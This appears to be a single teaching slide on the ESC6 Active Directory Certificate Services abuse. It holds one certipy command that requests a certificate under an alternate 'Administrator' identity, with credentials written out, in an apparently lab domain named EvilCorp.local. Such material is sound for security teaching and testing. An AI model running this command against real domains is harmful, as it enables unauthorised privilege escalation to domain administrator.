

# ESC6 - Abuse
Same as ESC1, except that you can choose any certificate template that permits client authentication:
certipy req ‘EvilCorp.local/TheHorseman:EvilCorp3.@EVILDC1.EvilCorp.local' -ca 'EvilCorp-EVILDC1-CA' -template ‘Vulnerable ESC1' -alt ‘Administrator@EvilCorp.local'